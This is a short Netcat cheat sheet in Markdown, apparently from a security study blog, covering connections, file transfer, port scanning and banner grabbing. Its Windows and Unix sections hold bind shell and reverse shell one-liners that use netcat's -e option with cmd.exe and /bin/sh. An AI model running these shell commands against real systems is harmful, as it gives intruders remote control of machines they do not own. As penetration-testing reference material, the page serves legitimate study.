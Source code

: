 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


# Usage
***

![Netcat Usage](/assets/images/netcat.JPG)

# Basic Commands  
***
#### TCP Port - Connecting  
`nc -nv <IP> <PORT>`

#### TCP Port - Listening  
`nc -lvp <PORT>`

#### Connect and return HTTP Page  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

#### File Transfer  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

#### Port Scanning  
`nc -z <IP> <PORT RANGE>`

#### Banner Grabbing  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

# Windows  
***
#### Bind Shell  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

# Nix  
***
#### Bind Shell  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
